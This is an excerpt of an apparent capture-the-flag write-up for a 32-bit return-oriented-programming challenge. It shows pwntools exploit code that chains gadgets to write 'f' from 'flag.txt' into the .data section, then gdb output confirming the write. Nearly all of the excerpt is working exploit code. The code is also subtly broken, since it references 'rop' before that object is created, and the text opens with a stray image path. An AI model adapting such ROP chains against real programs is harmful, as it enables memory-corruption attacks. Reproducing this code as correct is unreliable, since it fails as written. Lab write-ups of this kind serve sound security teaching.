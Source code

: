 ```python
# address of .data section header... this is area in memory that we will write our string ("flag.txt") to
data_header_address = p32(elf.symbols["data_start"])
data_header_address_big_endian = p32(elf.symbols["data_start"], endian='big')

# all our of ROP gadgets we're gona use
xchg_ecx_dl = p32(elf.symbols["questionableGadgets"]  + 18)
pext_rop_gadget = p32(elf.symbols["questionableGadgets"])
pop_ecx_xchg = p32(elf.symbols["questionableGadgets"] + 21)
pop_ebp_gadget = p32(rop.ebp.address)


# use rop object to locate gadgets in memory
rop = ROP(elf)

# buffer is 40 A's
buf = b"A"*offset

ebp_mask_for_f = b"\x4B\x4B\x00\x00"


payload = [
        buf,                                # bunch of A's

        # insert the "f"
        ebp_mask_for_f,                     # 0x4b4b masked with 0xb0bababa = 0x66 = "f"
        pext_rop_gadget,                    # address of our "pext" ROP gadget
        pop_ecx_xchg,                       # addr of ROP gadget to pop ecx, and flip it's endian-ness
        data_header_address_big_endian,     # address of data header in big endian...
                                            # this is a region of writeable memory that we can store 
                                            # our string "flag.txt" in
        xchg_ecx_dl,                        # addr of ROP gadget to put dl into [ecx]
        b'cccc'                             # garbage EIP 
       ]

payload = b"".join(payload)
print("payload is: ", payload)

p.send(payload)


print(p.recvall())
p.close()
```



Sweet, we successfully got "f" into &data :))))
```asm
gef➤  x/wx $ecx
0x804a018:	0x00000066
gef➤  x/s $ecx
0x804a018:	"f"
```
